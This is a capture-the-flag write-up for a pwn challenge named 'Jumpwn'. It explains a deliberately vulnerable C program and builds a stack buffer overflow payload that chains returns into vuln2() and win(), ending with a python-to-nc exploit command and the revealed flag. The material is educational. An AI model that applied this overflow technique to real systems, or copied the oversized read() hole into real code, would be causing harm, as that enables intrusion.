 # Jumpwn
* **Category:** Pwn
* **Points:** 500
## Problem

everyone wants to be a frob, right?

`nc challenges.ctfd.io 30063`

## Solution

This is a slightly more complicated buffer overflow challenge. In this challenge, we will need to jump around to a couple different functions (`vuln2()` and `win()`), as well as pass some variable/argument checks.

At the very top, we define a few global variables.
```
int global_var = 0xbaaaaaad;
int global_var2 = 0x12345678;
int global_var3 = 0xeeeeeeee;
```
In the `flag()` function, we use these variables to perform the following checks before printing the flag:
```
if (global_var == 0xfee15bad && global_var2 == 0xbeefd00d && !!global_var3 && arg2 == 0xc0cac01a) {	
	printf(buf);
}
```
So, in order for us to correctly print the flag, the global variables must pass these checks.

Next, in `main()`, we first call `vuln1()`:
```c
void vuln1 () {
	int var = 0xdeadbeef;
	
	puts("boing boing boing am bluefrogsay give me something to say: ");
	char buf[100];
	read(0, buf, 0x100);

	global_var = var;
	
	printf("here is what i say: %s", buf);
}
```
The `read` line is the part of the code that makes this vulnerable to a buffer overflow. The buffer variable created has space for 100 characters, but we read in `0x100` or 256 characters. This allows us to overwrite other memory on the stack.

We also see that we defined a variable `var` set to `0xdeadbeef` and then set `global_var` to this value. However, we need `global_var` to be `0xfee15bad` in order to pass the variable check, so we'll need to overwrite it with the correct value as well as jumping to the next function.

We will use gdb to find offsets and things in the same way as in overflowo. We get the following info:
```
Offset: 116
Address of vuln2: 0x08048679
Address of win: 0x080485db
```
The offset is composed of 100 bytes of buffer variable, 4 bytes for `var`, and 12 bytes of garbage. Thus, so far, our payload should be:
```sh
'A'*100 + '\xad\x5b\xe1\xfe' + 'A'*12 + '\x79\x86\x04\x08'
```
That will bring us to `vuln2()`:
```c
void vuln2 (int arg) {
	puts("kinda? keep going.");
  	
	int var2 = 0xc0715bad;
	
	global_var2 = arg;
	global_var3 = var2;
	
}
```
From there, we want to jump to the win function:
```c
void win (int arg2) {
	puts("you're in the win function!");
	char buf[64];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL) {
		printf("Flag file is missing! You might be running this locally. If this occurs on the remote server, please ping admins.\n");
		exit(0);
	}

  	fgets(buf,64,f);
	
	if (global_var == 0xfee15bad && global_var2 == 0xbeefd00d && !!global_var3 && arg2 == 0xc0cac01a) {	
		printf(buf);
	}
	
}
```
This time, we need to overwrite the argument and the return address. However, on the stack, the return address for `vuln2()` will be before the argument. So, we should first overwrite the return address with the address of `win()`, then supply the correct value of `global_var2` for the argument. After examining the stack, we realize `var2` has disappeared into thin air. After jumping to `win()`, we need to overwrite the argument.
```
'A'*100 + '\xad\x5b\xe1\xfe' + 'A'*12 + '\x79\x86\x04\x08' + '\xdb\x85\x04\x08' + '\x0d\xd0\xef\xbe' + '\x1a\xc0\xca\xc0'
```
The 

```sh
python -c "print('A'*100 + '\xad\x5b\xe1\xfe' + 'A'*12 + '\x79\x86\x04\x08' + '\xdb\x85\x04\x08' + '\x0d\xd0\xef\xbe' + '\x1a\xc0\xca\xc0')" | nc challenges.ctfd.io 30063
```

Basically:

| buf | var1 | garbage | vuln2 addr | win addr | arg | arg2 | 
|---|---|---|---|---|---|---|
|100|4|12|4|4|4|4|

Flag: `cctf{n0w_y0u_4r3_a_7ru3_fr0b}`
